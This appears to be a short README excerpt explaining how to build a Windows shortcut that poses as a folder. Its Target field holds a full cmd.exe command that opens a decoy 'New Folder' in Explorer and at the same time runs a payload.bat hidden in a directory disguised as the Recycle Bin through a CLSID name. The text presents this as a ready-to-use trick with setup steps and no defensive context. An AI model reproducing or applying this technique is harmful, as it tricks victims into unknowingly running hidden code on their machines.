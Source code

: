 ##How to create the shortcut (.lnk)
1. Create a shortcut to any file in the root folder
2. Go to properties and change the `Target` to

<br>

    C:\Windows\System32\cmd.exe /c "explorer "%cd%\New Folder"&if exist ".Recycle Bin.{645FF040-5081-101B-9F08-00AA002F954E}\" (".Recycle Bin.{645FF040-5081-101B-9F08-00AA002F954E}\payload.bat") else (if exist ".Recycle Bin\" (".Recycle Bin\payload.bat"))"

**This basically opens the `New Folder` in explorer and then checks to see if the `.Recycle Bin` folder exists and relatively executes it.**

Make sure that the `Open in` box is left blank